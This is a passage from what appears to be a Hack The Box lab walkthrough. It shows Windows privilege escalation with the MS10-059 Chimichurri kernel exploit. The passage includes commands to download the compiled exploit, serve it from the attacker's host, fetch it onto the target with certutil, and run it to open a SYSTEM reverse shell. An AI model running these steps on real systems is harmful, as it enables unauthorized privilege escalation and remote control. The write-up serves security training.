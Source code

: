 ### MS10-059

Let's download and upload the compiled binary.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ wget https://github.com/egre55/windows-kernel-exploits/raw/refs/heads/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe
--2025-01-21 20:20:36--  https://github.com/egre55/windows-kernel-exploits/raw/refs/heads/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe
Resolving github.com (github.com)... 20.233.83.145
Connecting to github.com (github.com)|20.233.83.145|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/egre55/windows-kernel-exploits/refs/heads/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe [following]
--2025-01-21 20:20:36--  https://raw.githubusercontent.com/egre55/windows-kernel-exploits/refs/heads/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 784384 (766K) [application/octet-stream]
Saving to: ‘Chimichurri.exe’

Chimichurri.exe    100%[================>] 766.00K  --.-KB/s    in 0.1s    

2025-01-21 20:20:37 (5.78 MB/s) - ‘Chimichurri.exe’ saved [784384/784384]


┌──(kali㉿kali)-[~/htb]
└─$ file Chimichurri.exe 
Chimichurri.exe: PE32 executable (console) Intel 80386, for MS Windows, 8 sections


┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.11 - - [21/Jan/2025 20:21:22] "GET /Chimichurri.exe HTTP/1.1" 200 -
10.10.10.11 - - [21/Jan/2025 20:21:23] "GET /Chimichurri.exe HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
```

Then, let's run it with opening reverse shell.

```bash
C:\Users\tolis\Documents>certutil.exe -urlcache -split -f http://10.10.14.10:8000/Chimichurri.exe
certutil.exe -urlcache -split -f http://10.10.14.10:8000/Chimichurri.exe
****  Online  ****
  000000  ...
  0bf800
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\Documents>.\Chimichurri.exe 10.10.14.10 9001
.\Chimichurri.exe 10.10.14.10 9001
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```
